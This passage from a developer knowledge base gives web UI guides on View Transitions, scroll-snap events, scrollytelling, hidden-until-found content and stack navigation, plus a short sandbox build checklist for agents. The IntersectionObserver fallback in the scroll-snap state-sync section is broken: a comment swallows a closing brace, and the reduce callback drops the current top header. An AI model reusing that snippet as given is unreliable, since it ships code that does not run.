For Single-Page Applications (SPAs) or simple state changes, wrap the logic that updates the DOM in `document.startViewTransition`. The browser captures a snapshot of the current state, runs the update, and then captures the new state. 

```javascript
function navigate(view) {
  // MANDATORY: Wrap the update in startViewTransition
  document.startViewTransition(() => updateDOM(view));
}
```

### Step 2: Assign Shared Transition Names

Use the `view-transition-name` CSS property to tell the browser which elements should be morphed. The name can be anything (except `none`). **MANDATORY**: there must be no more than 1 element before and after with a given `view-transition-name`. If there are 2 or more elements with a given `view-transition-name`, the DOM will be updated to the new state immediately, without a transition.

You can use multiple `view-transition-name`s to morph multiple pairs of elements. For example, you may want to transition both the product image and title with separate transitions.

Because there are multiple items on the list view, you can not give the all of them the same `view-transition-name`. This can be solved in two ways in a SPA.

1. **Dynamic detail page:** Assign each item on the list page a unique `view-transition-name`, and then dynamically apply that name to the matching element on the detail page when the list item is selected, as shown here.

```css
/* In the list view, give each */
#product-1 { view-transition-name: p1 }
#product-2 { view-transition-name: p2 }
#product-3 { view-transition-name: p3 }
```

```js
function updateDOM(clickedTransitionName){
  const hero = document.getElementById("hero");
  hero.style.viewTransitionName = clickedTransitionName;
}
```

2. **Dynamic list item:** Assign the element on the detail page a `view-transition-name`, and apply that name to the item on the list page when it is selected. Remove the `view-transition-name` from the item on the list page when returning to the list page.

The `#hero` element on the detail page and the selected `.thumbnail` element on the list page share a `view-transition-name`. 

```css
#hero{
  view-transition-name: hero;
}
.thumbnail.selected {
  view-transition-name: hero;
}
```

When a thumbnail is clicked, we need to prepare the list view by assigning the `view-transition-name` using the `.selected` class selector, and making any changes to the DOM before starting the transition.

Then, you can call `document.startViewTransition()`, and apply the changes to transition the page from the detail to list view.

After navigating back to the list view, you must clean up the view transition classes to prevent the next navigation from erroring. You can perform this cleanup after the transition's `finished` promise resolves.

```javascript
// Function called when a thumbnail is clicked
function goFromListToDetail(e){
  e.currentTarget.classList.add("selected");
  const hero = document.getElementById("hero");
  const bgColor = getComputedStyle(e.currentTarget).backgroundColor;
  hero.style.background = bgColor;

  // Trigger the transition, checking for support
  if (!document.startViewTransition) {
    document.body.classList.add("detail");
    // MANDATORY Accessibility Routing: Route focus to the newly revealed heading to announce context and preserve logical tab flow
    document.getElementById("detail-heading")?.focus();
    return; // MANDATORY: End function execution if view transitions are not supported.  
  }
  const transition = document.startViewTransition(() => {
    document.body.classList.add("detail");
  });
  // MANDATORY Accessibility Routing: Route focus after the view transition resolves
  transition.finished.finally(() => {
    document.getElementById("detail-heading")?.focus();
  });
}

// Function called when navigating from detail back to list view
function goFromDetailToList() {
  if (!document.startViewTransition) {
    document.body.classList.remove("detail");
    document.getElementById("list-heading")?.focus();
    return;
  }
  const transition = document.startViewTransition(() => {
    document.body.classList.remove("detail");
  });
  // Clean up the list view and route focus
  transition.finished.finally(() => {
    // Route focus back to list view
    document.getElementById("list-heading")?.focus();
    // Remove selected classList to remove view-transition-names
    document.querySelectorAll(".selected").forEach(
      (element) => {
        element.classList.remove("selected");
      },
    );
  });
}
```

The method you choose will depend on the use case. The dynamic list item requires less repeated CSS, but more manual JavaScript cleanup.


### Step 3: Fix Aspect Ratio "Stretching"

By default, the browser cross-fades the old and new snapshots within a group that stretches to fit both. If you are transitioning text, set the width of the text element to `fit-content` on both the old and new views, so that the transitioned element's aspect ratio is stable.

```css
#list-page .title {
  width: fit-content;
}

#detail-page #title {
  width: fit-content;
}
```

If you are transitioning elements that change aspect ratio, you may need to set the height of the old and new pseudo-elements to 100% of the `::view-transition-pair()` pseudo-element.

```css
::view-transition-old(hero),
::view-transition-new(hero){
  height: 100%;
}
```

The pseudo-elements are snapshots of the live elements, so you can also use `object-fit` and `object-position` declarations for more control of the transitioning effect.

## Best Practices

-   **DO NOT** specify too many transitions. Only use shared elements for primary content that the user is actively tracking (e.g., hero images, headings).
-   **DO** remove temporary `view-transition-name` values after the transition finishes to avoid side effects on future transitions.
-   **DO NOT** transition elements with active animations. View transitions operate on snapshots, so any animations will appear to be paused during the view transition.
-   **DO** respect user preferences for reduced motion using the `prefers-reduced-motion` media query.
-   **MANDATORY Accessibility Routing**: View transitions morph page layouts dynamically but do not manage programmatic focus. If focus remains on an element that is hidden or removed during the transition, focus is abandoned, leaving keyboard and assistive technology users without context. Shift focus programmatically to an updated page heading or view container (using `tabindex="-1"`) immediately after the DOM updates or when the view transition's `finished` promise resolves.

```css
@media (prefers-reduced-motion: reduce) {
  ::view-transition-group(*),
  ::view-transition-old(*),
  ::view-transition-new(*) {
    animation: none !important;
  }
}
```

## Fallback Strategies

Baseline status for View transitions: Newly available. It's been Baseline since 2025-10-14.
Supported by: Chrome 111 (Mar 2023), Edge 111 (Mar 2023), Firefox 144 (Oct 2025), and Safari 18 (Sep 2024).

The View Transitions API is designed for progressive enhancement. Browsers that do not support it will simply execute the DOM update immediately without animation.

```javascript
function navigate(){
  if (!document.startViewTransition) {
    // Fallback: Just update the DOM
    updateDOM();
  } else {
    document.startViewTransition(() => updateDOM());
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux]

### 📘 KNOWLEDGE: NEXUS_SANDBOX_PIPELINE.MD

# Nexus Sandbox Evolution Pipeline Protocol (v2.1)
> **VERSION**: v2 | **Last Updated**: 26/05/2026


This document defines the automated orchestration rules for evolving Nexus sandboxes from basic scaffolds into professional-grade web applications. Following this protocol ensures "Zero Flaws" architectural standards and maximum visual fidelity.

## 1. Evolution Stage: "The hardening"
Every sandbox must undergo a feature-injection phase where basic CRUD is replaced by sophisticated business logic.

- **Models**: Must include semantic properties (e.g., `streak` for habits, `load` for nodes).
- **Migrations**: Use the `2026_05_13_000000_` timestamp prefix for consistency.
- **Livewire Components**: Must handle state logic (e.g., `toggleStatus()`, `adjustStock()`).
- **Premium UI**: 
    - Use `bg-slate-900` for dark mode excellence.
    - Implement `rounded-[40px]` or `3xl` for modern aesthetics.
    - Use HSL-curated gradients (`from-indigo-500 to-purple-600`).
    - Add micro-animations (`hover:scale-105`, `animate-pulse`).

## 2. Build Stage: "The Independent Build"
To ensure portability and stability, each sandbox must be built independently.

- **NPM**: Run `npm install --ignore-scripts` directly within the project directory. 
- **Laravel**: 
    - `php artisan key:generate`
    - `php artisan migrate:fresh --force`
- **Isolation**: Avoid symbolic links or junctions if storage allows (as per user preference v2.1).

## 3. Initialization Stage: "The Real App Feel"
Sandboxes must never be empty. Use `php artisan tinker` to seed "Anchor Records".

- **Contextual Seeding**:
    - **Finance**: Add 2-3 sample transactions.
    - **Users**: Add "Nexus Prime" super-admin.
    - **Monitoring**: Add active server nodes.
- **Verification**: Ensure tables and models are aligned (Model `$table` property must match migration).

## 4. Maintenance & Cleanup
- **Scratch Files**: Delete all temporary `.js` or `.sh` scripts after a successful build batch.
- **Documentation**: Update `documentation/records/[tes.md](../ui-ux/NEXUS_TES.MD)` with the latest build timestamp.
- **Hygiene**: Ensure `.sqlite` databases are fresh and not carrying legacy data from previous versions.

## Summary Checklist for Agents:
1. [ ] Apply Premium Blade + Livewire Logic.
2. [ ] Define explicit Schema & Model relationships.
3. [ ] Execute `npm install` in-folder.
4. [ ] Run `migrate:fresh`.
5. [ ] Seed 2-5 "Real" records via Tinker.
6. [ ] Wipe scratch files.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, tdd]

### 📘 KNOWLEDGE: NEXUS_SCROLL-SNAP-REALTIME-FEEDBACK.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## Overview
Users expect immediate visual feedback when interacting with UI elements like carousels or galleries. Traditional scroll snap only provides feedback *after* the scroll gesture completes and the element settles. By using Scroll Snap Events, specifically `scrollsnapchanging`, you can provide real-time feedback during the scroll gesture, highlighting the pending snap target before the user releases their touch or mouse.

## Implementation

### 1. Listen for `scrollsnapchanging`
Attach an event listener for `scrollsnapchanging` to the scroll container. This event fires when the browser determines a new snap target is likely to be selected.

```javascript
const container = document.querySelector('#gallery');
const thumbnails = document.querySelectorAll('.thumbnail');
const items = document.querySelectorAll('.gallery-item');

container.addEventListener('scrollsnapchanging', (event) => {
  // Highlight pending snap target during scroll for real-time feedback.
  const pendingTarget = event.snapTargetInline;
  const index = [...items].indexOf(pendingTarget);

  if (index === -1 || !thumbnails[index]) return;

  // Use lightweight class toggle to avoid layout thrashing during rapid events.
  // Note: aria-current is NOT toggled here. It tracks the settled "current"
  // item, which is updated in the scrollsnapchange handler below.
  thumbnails.forEach((thumb) => thumb.classList.remove('pending'));
  thumbnails[index].classList.add('pending');
});
```

This example uses `snapTargetInline` because the gallery scrolls horizontally. If your scroll container scrolls vertically, use `snapTargetBlock` instead.

### 2. Listen for `scrollsnapchange`
To finalize the state when the scroll gesture completes and the element actually snaps, listen for the `scrollsnapchange` event. This is required to establish the final active state.

```javascript
container.addEventListener('scrollsnapchange', (event) => {
  // Promote pending state to active on scroll completion.
  const snappedTarget = event.snapTargetInline;
  const index = [...items].indexOf(snappedTarget);

  if (index === -1 || !thumbnails[index]) return;

  // Establish final active state and clean up pending.
  thumbnails.forEach((thumb) => {
    thumb.classList.remove('pending', 'active');
    thumb.removeAttribute('aria-current');
  });
  thumbnails[index].classList.add('active');
  thumbnails[index].setAttribute('aria-current', 'true');
});
```

### 3. Sync initial state
When the page loads, the scroll position might be restored by the browser (e.g., via history traversal or an anchor link). Neither `scrollsnapchange` nor `scroll` events will fire automatically. Run a one-off geometric check to sync the UI with the initial scroll position.

```javascript
// Note: For item.offsetLeft to be relative to the container, 
// the container MUST be the offsetParent (e.g., `position: relative`).
const findClosestItemIndex = () => {
  // Center-distance assumes scroll-snap-align: center on items.
  // For start-aligned snap, compare scrollLeft to item.offsetLeft directly.
  const containerCenter = container.scrollLeft + container.clientWidth / 2;
  let closestIndex = 0;
  let minDistance = Infinity;

  items.forEach((item, index) => {
    const itemCenter = item.offsetLeft + item.offsetWidth / 2;
    const distance = Math.abs(containerCenter - itemCenter);
    if (distance < minDistance) {
      minDistance = distance;
      closestIndex = index;
    }
  });
  return closestIndex;
};

const initActiveItem = () => {
  const closestIndex = findClosestItemIndex();
  if (!thumbnails[closestIndex]) return;

  thumbnails.forEach((thumb) => {
    thumb.classList.remove('pending', 'active');
    thumb.removeAttribute('aria-current');
  });
  thumbnails[closestIndex].classList.add('active');
  thumbnails[closestIndex].setAttribute('aria-current', 'true');
};

if (document.readyState === 'complete') {
  initActiveItem();
} else {
  window.addEventListener('load', initActiveItem, { once: true });
}
```

### Fallback strategies
Scroll snap events has limited availability.
Supported by: Chrome 129 (Sep 2024) and Edge 129 (Sep 2024).
Unsupported in: Firefox and Safari.
Baseline status for Scroll snap: Widely available. It's been Baseline since 2020-01-15.
Supported by: Chrome 69 (Sep 2018), Edge 79 (Jan 2020), Firefox 68 (Jul 2019), and Safari 11 (Sep 2017).

For browsers that do not support `scrollsnapchanging`, the UI will not provide eager feedback during the scroll gesture by default, and the linked UI will desynchronize from the content.

**MANDATORY:** Provide a fallback for browsers without support, or the linked UI will desynchronize from the content.

**DO** simulate the real-time nature of `scrollsnapchanging` with a `scroll` event listener coupled with `requestAnimationFrame` and geometric distance calculations to determine the closest snap target while the user is actively scrolling.

```javascript
if ('onscrollsnapchanging' in Element.prototype) {
  // Use native scroll snap events
} else {
  // Fallback: use scroll + requestAnimationFrame for eager feedback
  // (assumes the same container, thumbnails, items defined in step 1)
  let scrollTimeout;
  let rafId = null;

  const promotePendingToActive = () => {
    const closestIndex = findClosestItemIndex();
    if (!thumbnails[closestIndex]) return;
    thumbnails.forEach((thumb) => {
      thumb.classList.remove('pending', 'active');
      thumb.removeAttribute('aria-current');
    });
    thumbnails[closestIndex].classList.add('active');
    thumbnails[closestIndex].setAttribute('aria-current', 'true');
  };

  container.addEventListener('scroll', () => {
    if (rafId) return;
    rafId = requestAnimationFrame(() => {
      rafId = null;
      const closestIndex = findClosestItemIndex();
      if (!thumbnails[closestIndex]) return;

      // DO NOT forget to clean up stale pending classes
      thumbnails.forEach((thumb) => thumb.classList.remove('pending'));
      thumbnails[closestIndex].classList.add('pending');
    });

    // Debounce fallback for browsers that don't support scrollend
    clearTimeout(scrollTimeout);
    scrollTimeout = setTimeout(promotePendingToActive, 100);
  }, { passive: true });

  // Fallback: use Baseline `scrollend` event to promote pending to active cleanly where supported
  container.addEventListener('scrollend', () => {
    clearTimeout(scrollTimeout);
    promotePendingToActive();
  });
}
```

The geometric `scroll` + `requestAnimationFrame` fallback closely emulates the behavior of native snap prediction, including handling programmatic scrolling correctly. Because functions like `scrollIntoView` naturally fire `scroll` events during their execution, the UI will stay smoothly synchronized throughout the scroll animation without requiring additional custom logic.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, performance, api]

### 📘 KNOWLEDGE: NEXUS_SCROLL-SNAP-STATE-SYNC.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Synchronizing UI state with a scrollable container's snap position traditionally required complex scroll event listeners, manual calculations of scroll offsets, and intersection observers. The `scrollsnapchange` event provides a native, efficient way to detect when a scroller has settled on a new snap target, making it useful for synchronizing sidebars or highlighting the active section in a table of contents.

## Implementation

### 1. Configure Scroll Snap in CSS
The container must have `scroll-snap-type` defined, and have children with `scroll-snap-align` for the browser to track snap targets. In a long article with a table of contents, you can use this to snap section headers to the top of the viewport.

```css
main {
    /* Enable scroll snapping on the container */  
  scroll-snap-type: y proximity;
  overflow-y: auto;
}

h2 {
  /* Define how headers align when snapped */
  scroll-snap-align: start;
}
```

### 2. Listen for Snap Changes
Use the `scrollsnapchange` event on the scroll container to react when the user finishes scrolling and the browser snaps to a new element. In our TOC demo, we use this to highlight the active link in the sidebar.

```html
<!-- MANDATORY: Wrap table of contents links inside a proper navigation landmark -->
<nav aria-label="Table of contents">
  <ul>
    <li><a href="#section-1" aria-current="location">Section 1</a></li>
    <li><a href="#section-2">Section 2</a></li>
  </ul>
</nav>
```

```javascript
const main = document.getElementById('main');
const links = document.querySelectorAll('nav a');

// The event fires when the scroller settles on a new snap target
main.addEventListener('scrollsnapchange', (event) => {
  // Use snapTargetBlock for vertical or snapTargetInline for horizontal
  const snappedHeader = event.snapTargetBlock;
  
  if (snappedHeader) {
    setSelectedParagraph(snappedHeader.id);
  }
});
```


## Accessibility

Caution: While Scroll Snap Events make it possible to visually synchronize other content to the state of the scroller, it does not automatically expose that information programmatically. Relationships between elements, active states, and live content must be reflected in the Accessibility Tree.

For a table of contents, ensure the sidebar links use `aria-current="true"` or `aria-current="location"` when they are active.

In addition, be careful when using the `mandatory` value for `scroll-snap-type`, as it can cause content in-between snap-points to become inaccessible when longer than the screen.


## Fallback strategies

Scroll snap events has limited availability.
Supported by: Chrome 129 (Sep 2024) and Edge 129 (Sep 2024).
Unsupported in: Firefox and Safari.

If `scrollsnapchange` is not supported, use `IntersectionObserver` to detect which element is currently at the top of the scroller. Note this is different behavior than `scrollsnapchange`, as this will trigger while the scroll happens, rather than only when the scroll has settled.

```javascript
// Feature detect support for scroll snap events
if (!('onscrollsnapchange' in HTMLElement.prototype)) {
  const observer = new IntersectionObserver(
    () => {
      // Each time the set of intersecting headers changes, find the top
      // header that is visible.
      const topEntry = [...headers].reduce((currentTop, header) => {
        // Use the bottom to handle scrolling up, when the top is still offscreen
        const {bottom} = header.getBoundingClientRect();
        // Don't match if the header's bottom is aboce the scrollport
        if (bottom < 0) return;
        if (!currentTop) return header;
        return bottom <
          currentTop.getBoundingClientRect().bottom
          ? header
          : currentTop;
      }, undefined);
      if (topEntry) setSelectedParagraph(topEntry.id);
    },
    { root: main, threshold: 0.9 // Adjust based on your use case },
  );

  // Observe all snap targets (e.g., section headers)
  document.querySelectorAll('h2').forEach(header => observer.observe(header));
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux]

### 📘 KNOWLEDGE: NEXUS_SCROLLYTELLING.MD

# Scrollytelling
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Scrollytelling is a popular technique used to create engaging and immersive web experiences. It involves animating elements on a page as the user scrolls, effectively telling a story or guiding the user through a narrative. With CSS Scroll-Driven Animations, you can create these effects directly in CSS, without needing to rely on JavaScript. The animations are controlled by the scroll position, not a time-based clock, which ensures they are always in sync with the user's scroll.

## How to implement

To create a scrollytelling experience, you need two sets of elements: one to track the scroll position and another to be animated.

First, define a named `view-timeline` on the elements you want to track. These will act as the drivers for your animations.

```css
#tracked {
  section:nth-child(1){ view-timeline: --tl-1 block; }
  section:nth-child(2){ view-timeline: --tl-2 block; }
  section:nth-child(3){ view-timeline: --tl-3 block; }
  section:nth-child(4){ view-timeline: --tl-4 block; }
  section:nth-child(5){ view-timeline: --tl-5 block; }
}
```

Next, apply animations to the elements you want to animate and link them to the timelines you just created using the `animation-timeline` property.

```css
#animated {
  section {
    animation: animate-in auto linear both, animate-out auto linear forwards;
    animation-range: entry 25% cover 50%, exit 50% exit 75%;
  }

  section:nth-child(1){ animation-timeline: --tl-1; }
  section:nth-child(2){ animation-timeline: --tl-2; }
  section:nth-child(3){ animation-timeline: --tl-3; }
  section:nth-child(4){ animation-timeline: --tl-4; }
  section:nth-child(5){ animation-timeline: --tl-5; }
}
```

For the `animation-timeline` to be able to reference the named timelines, they need to be in the same scope. You can use the `timeline-scope` property on a common ancestor to make the timelines available to all the elements that need them. The `:root` element is often a good choice for this.

```css
html {
  timeline-scope: --tl-1, --tl-2, --tl-3, --tl-4, --tl-5;
}
```

Finally, you can use the `animation-range` property to specify the exact range of the timeline during which the animation should run. This gives you fine-grained control over when the animations are triggered and how they progress.

```css
#animated section {
  animation-range: entry 25% cover 50%, exit 50% exit 75%;
}
```

## Example code

```css
html {
  timeline-scope: --tl-1, --tl-2, --tl-3, --tl-4, --tl-5;
}

#tracked {
  section:nth-child(1){ view-timeline: --tl-1 block; }
  section:nth-child(2){ view-timeline: --tl-2 block; }
  section:nth-child(3){ view-timeline: --tl-3 block; }
  section:nth-child(4){ view-timeline: --tl-4 block; }
  section:nth-child(5){ view-timeline: --tl-5 block; }
}

@keyframes animate-in {
  from { scale: 0.5; opacity: 0; transform: rotateY(-180deg); }
  to { transform: rotateY(0deg); }
}
@keyframes animate-out {
  to { translate: 100% 0; opacity: 0; }
}

#animated {
  section {
    animation: animate-in auto linear both, animate-out auto linear forwards;
    animation-range: entry 25% cover 50%, exit 50% exit 75%;
    backface-visibility: hidden;
  }

  section:nth-child(1){ animation-timeline: --tl-1; }
  section:nth-child(2){ animation-timeline: --tl-2; }
  section:nth-child(3){ animation-timeline: --tl-3; }
  section:nth-child(4){ animation-timeline: --tl-4; }
  section:nth-child(5){ animation-timeline: --tl-5; }
}

/* MANDATORY Copy-Paste Safety: Disable continuous storytelling motion for sensitive users */
@media (prefers-reduced-motion: reduce) {
  #animated section {
    animation: none !important;
    opacity: 1 !important;
    transform: none !important;
  }
}
```

## Best Practices

When using scroll-driven animations, it's important to follow a few best practices to ensure a smooth and accessible experience:

- **DO** include feature detection: Not all browsers support scroll-driven animations. Use `@supports ((animation-timeline: scroll()) and (animation-range: 0% 100%))` to check for support and provide a fallback for browsers that don't support it.
  - The `(animation-range: 0% 100%)` check **MUST** be included here, to filter out browsers with only partial support.
  - **DO NOT** use the `scroll-timeline-polyfill` package for the fallback strategy as it is not feature complete and has a lot of known issues.
  - If the animation is only considered to be decorative, opt for Progressive Enhancement and **DO NOT** provide a fallback.
- **DO** respect user preferences: Some users prefer to have less motion on the web. Use the `prefers-reduced-motion` media query to disable or reduce your animations for these users.
- **DO** try to animate only performant CSS properties: For the smoothest animations, stick to animating properties that can be handled by the browser's compositor thread, such as `transform` and `opacity`. Animating other properties like `width` or `height` can lead to performance issues.
- **DO** use the correct declaration order: When using the `animation` shorthand property, declare `animation-timeline` and `animation-range` *after* it to prevent the shorthand from resetting the timeline.

When using the `view-timeline` property to create a scroll-driven animation:

- **DO** use a CSS `<dashed-ident>` for the name.
- **OPTIONAL** be explicit about the axis to track: When not targeting the default `block` axis (such as in a horizontal scroller), be explicit about which axis to track with `view-timeline-axis`.
- **DO** make sure the scope of the lookup works: When the element that is declaring the `view-timeline` is not a flat tree ancestor of the animated element, hoist up the visibility of the `view-timeline`’s name by using `timeline-scope` on a shared ancestor.

## Fallback strategies

Scroll-driven animations has limited availability.
Supported by: Chrome 115 (Jul 2023), Edge 115 (Jul 2023), and Safari 26 (Sep 2025).
Unsupported in: Firefox.

For browsers that do not support scroll-driven animations, you can use a fallback to recreate the visual effects. The fallbacks are typically built with either a scroll listener (for ScrollTimeline effects) or the IntersectionObserver API (for ViewTimeline effects).

In browsers with built-in support for scroll-driven animations, ALWAYS use the native CSS implementation as those are more performant.

Note that not every effect can be recreated using the fallbacks approach.

For this use-case specifically, the following script applies the fallback for browsers that do not support scroll-driven animations. It uses an `IntersectionObserver` to track the visibility of each `#tracked section` element and updates the `transform` property of the corresponding `#animated section` accordingly.

```js
const animatedSections = document.querySelectorAll('#animated section');

const observer = new IntersectionObserver((entries) => {
  entries.forEach(entry => {
    const sectionIndex = Array.from(document.querySelectorAll('#tracked section')).indexOf(entry.target);
    if (sectionIndex !== -1) {
      const animatedSection = animatedSections[sectionIndex];
      const ratio = entry.intersectionRatio;

      // Animate-in
      animatedSection.style.opacity = ratio;
      animatedSection.style.transform = `scale(${0.5 + ratio * 0.5}) rotateY(${-180 + ratio * 180}deg)`;

      // Animate-out
      if (ratio < 0.5) {
        animatedSection.style.translate = `${(0.5 - ratio) * 2 * 100}% 0`;
      } else {
        animatedSection.style.translate = '0 0';
      }
    }
  });
}, { threshold: Array.from({length: 101}, (_, i) => i / 100) });

document.querySelectorAll('#tracked section').forEach(section => {
  observer.observe(section);
});
```

And the accompanying CSS:

```css
#animated section {
  opacity: 0;
  transform: scale(0.5)  rotateY(-180deg);
  backface-visibility: hidden;
}

/* MANDATORY Copy-Paste Safety: Ensure content remains fully visible and legible for assistive technologies or users with motion sensitivities */
@media (prefers-reduced-motion: reduce) {
  #animated section {
    opacity: 1 !important;
    transform: none !important;
    translate: 0 0 !important;
  }
}
```

This fallback provides a more accurate, scroll-driven animation for browsers that do not support the native CSS feature, ensuring a more consistent experience for all users. By using a series of thresholds for the `IntersectionObserver`, we can track the scroll position with more precision and create a smoother animation.

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, performance]

### 📘 KNOWLEDGE: NEXUS_SEARCH-HIDDEN-CONTENT.MD

# Search hidden content
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Web interfaces often hide content from view to improve the user experience, save screen space, or increase page performance. Traditional methods like `display: none` or `visibility: hidden` work to hide content visually, but they also make that content completely inaccessible to screen readers and browser features like "Find in page".

To hide content visually but still allow it to be searchable by users and enable it to be deep linked to via URL fragments and "Scroll to Text Fragment" links, you can use either the HTML `<details>` element or the `hidden="until-found"` attribute. The `<details>` element is generally recommended as it's simpler to implement and maintain, but there are some more complex cases where `<details>` is not sufficient and `hidden="until-found"` is required.

For example:

- If you want full control over the styling of the show/hide mechanism.
- If the UI controls to show/hide the content are in another part of the DOM.
- If you don't want to support hiding the content after it's shown.

## How to implement

The `<details>` element has searchable and accessible text by default, and no special implementation is required. Prefer using `<details>` over `hidden="until-found"` if possible.

If you need to use `hidden="until-found"` instead, follow these instructions:

1. **Apply the attribute:** Add the `hidden="until-found"` HTML attribute directly to the elements containing the content that should be hidden from view.
2. **Synchronize UI state:** If the interface has related states that depend on the content's visibility (e.g., updating ARIA attributes, toggling open/close CSS classes, or rotating accordion icons):
   - You **MUST** add an event listener for the `beforematch` event.
   - Register the `beforematch` event listener directly on the element carrying the `hidden="until-found"` attribute. Since the event bubbles, you may alternatively use event delegation by registering a single listener on a parent element (such as a tab container) to manage multiple hidden sections at once.
   - Inside the event listener, execute the logic to synchronize related UI elements (such as closing other open tabs or changing the state of a toggle button).

## Example code

**Goal:** Render a hidden container where the content remains invisible to the user until they search for a word within that section.

### Using `<details>` element

```html
<details>
  <summary>Click to expand</summary>
  <p>This content is visually hidden.</p>
</details>
```

#### Mutually exclusive disclosures

When handling mutually exclusive content regions, like an exclusive accordion, use the native HTML `<details>` element with a shared `name` attribute.

```html
<div class="accordion-group">
  <!-- The name attribute creates an exclusive disclosure group -->
  <details class="disclosure" name="my-accordion">
    <summary>Section 1</summary>
    <p>Section 1 content</p>
  </details>

  <details class="disclosure" name="my-accordion" open>
    <summary>Section 2</summary>
    <p>Section 2 content</p>
  </details>

  <details class="disclosure" name="my-accordion">
    <summary>Section 3</summary>
    <p>Section 3 content</p>
  </details>
</div>
```

### Using `hidden="until-found"` attribute

```html
<!-- The browser automatically removes hidden="until-found" upon a search match -->
<div class="hidden-container" hidden="until-found">
  <p>This content is visually hidden.</p>
</div>
```

#### Custom mutually exclusive disclosures

When handling custom mutually exclusive regions controlled by external buttons, ensure only the matched panel remains visible. In the `beforematch` event handler, you MUST synchronize related ARIA states such as setting `aria-expanded="true"` on the controlling button.

```html
<div class="custom-accordion">
  <div class="controls">
    <button aria-expanded="true" aria-controls="panel-1" id="btn-1">Section 1</button>
    <button aria-expanded="false" aria-controls="panel-2" id="btn-2">Section 2</button>
  </div>

  <div id="panel-1" class="panel">
    <p>Section 1 content (visible)</p>
  </div>

  <div id="panel-2" class="panel" hidden="until-found">
    <p>Section 2 content (hidden)</p>
  </div>
</div>
```

```javascript
const accordion = document.querySelector('.custom-accordion');

accordion.addEventListener('beforematch', (e) => {
  // Hide all panels and synchronize button states before the browser reveals the matched panel
  accordion.querySelectorAll('.panel').forEach((panel) => {
    if (panel !== e.target) {
      panel.hidden = 'until-found';
    }
  });
  accordion.querySelectorAll('button').forEach((btn) => {
    const controls = btn.getAttribute('aria-controls');
    btn.setAttribute('aria-expanded', controls === e.target.id ? 'true' : 'false');
  });
});
```

## Best practices for `hidden="until-found"`

- **DO** apply borders, padding, and backgrounds to nested child wrappers rather than directly to the element with the `hidden="until-found"` attribute. This prevents unintended layout shifts or visual remnants while the element is hidden.
- **DO NOT** apply `display: none`, `visibility: hidden`, or any associated `display` or `visibility` CSS properties directly to elements with the `hidden="until-found"` attribute. This breaks the native functionality and permanently hides the content from the search index.
- **DO NOT** use `hidden="until-found"` for sensitive information, internal data tokens, or irrelevant data that should not be exposed via search.
- **DO NOT** use `hidden="until-found"` as a replacement for "screen reader only" (.sr-only) text.

## Browser support and fallback strategies

The `<details>` element is Baseline Widely available, so a fallback strategy is not required.

The `hidden="until-found"` attribute is not yet Baseline Widely available, but it can be safely used with a fallback in unsupporting browsers. **DO NOT** avoid `hidden="until-found"` because of missing browser support, as its accessiblity benefits far outweigh the cost of implementing a fallback.

#### `hidden="until-found"` fallback

For standard UI elements like accordions or "Read more" sections, use JavaScript to feature-detect and show all content if the feature is unsupported.

```javascript
if (!('onbeforematch' in HTMLElement.prototype)) {
  // Expand all hidden content for unsupported browsers
  document.querySelectorAll('[hidden="until-found"]').forEach((el) => {
    el.removeAttribute('hidden');
    // MANDATORY: also update any aria references to this element.
  });
}
```

For mutually exclusive UI paradigms (like custom exclusive panels where content shares the same visual region), the fallback should extract and display all content linearly below the main interactive area, using URL anchor fragments to allow users to navigate directly to the respective sections.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance]

### 📘 KNOWLEDGE: NEXUS_STACK-DRILL-DOWN.MD

# Stack Drill Down
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Overview

A stack drill-down is a hierarchical navigation pattern, common in mobile apps, where activating a link pushes a new full-screen view on top of the previous one. The view's content is application-defined — a settings sub-page, a thread inside a feed, a folder inside a file browser, a detail page inside a gallery, etc. The user returns by swiping the current view off-screen to the right or by tapping a back button. Browser history stays in sync so the OS-level Back gesture, deep links, and forward/back navigation all work coherently.

This guide implements the stack as:

- A horizontal CSS scroll-snap container where each view is exactly one snap stop. Drilling down appends a new view and smooth-scrolls to it; the swipe-back gesture is handled natively by the browser, giving momentum, velocity, and interruption tracking for free with no pointer-event JavaScript.
- A `scrollsnapchange` event listener on the stack that fires when the snap target changes. This is used as the single source of truth for "the active view changed" — so swipe, click, programmatic scroll, and `popstate` paths all converge in one callback that updates `inert`, restores focus, prunes views the user swiped past, and reconciles browser history.
- A `pushState` / `popstate` integration so every drill-down adds a history entry, the OS-level Back gesture works, and deep links open directly into the right view.
- An (optional) scroll-driven `view()` animation on each view that produces a parallax + dim + shadow effect tied directly to the swipe gesture, so the visible motion is driven by the user's finger, not a tween.

This approach is preferred over JavaScript-driven `transform` animations because the snap mechanism gives the user direct gestural control of the panel's position (their finger drives it, not a tween) and matches the interaction patterns users expect from native mobile apps.

## Implementation

### 1. Markup

The static HTML is just an empty stack container; views are built in JavaScript and appended as the user navigates.

```html
<div class="Stack">
  <!-- Intentionally empty. The initial view is appended by JavaScript
       at init time (step 8). -->
</div>
```

Each view is a `.Stack-view` direct child of `.Stack` (the snap target) with a `.Stack-viewContent` wrapper inside it (where view content lives, and where the parallax transform applies — see step 2). At any moment the stack has one view per active history entry, left-to-right in drill-down order. After the user has drilled in two levels from the root the rendered DOM looks like this:

```html
<div class="Stack">
  <!-- Root view. Has whatever content makes sense as the entry point
       of this section of the app. No back button — there is nothing
       behind the root in the stack. -->
  <div class="Stack-view" inert>
    <div class="Stack-viewContent">
      <!-- Root content; includes <a href> links that drill in. -->
    </div>
  </div>

  <!-- First-level drill-down view. The user got here by activating a
       link in the root view. -->
  <div class="Stack-view" inert>
    <div class="Stack-viewContent">
      <header>
        <!-- DO include a back button. The swipe gesture only works on
             touch — keyboard and pointer users need an explicit control. -->
        <button class="back" aria-label="Back"></button>
        <!-- Title / breadcrumb / etc. -->
      </header>
      <main>
        <!-- View content; may include further drill-down <a href> links. -->
      </main>
    </div>
  </div>

  <!-- Second-level drill-down view. Currently visible — no `inert`
       attribute. Same shape as the first-level view. -->
  <div class="Stack-view">
    <div class="Stack-viewContent">
      <header>
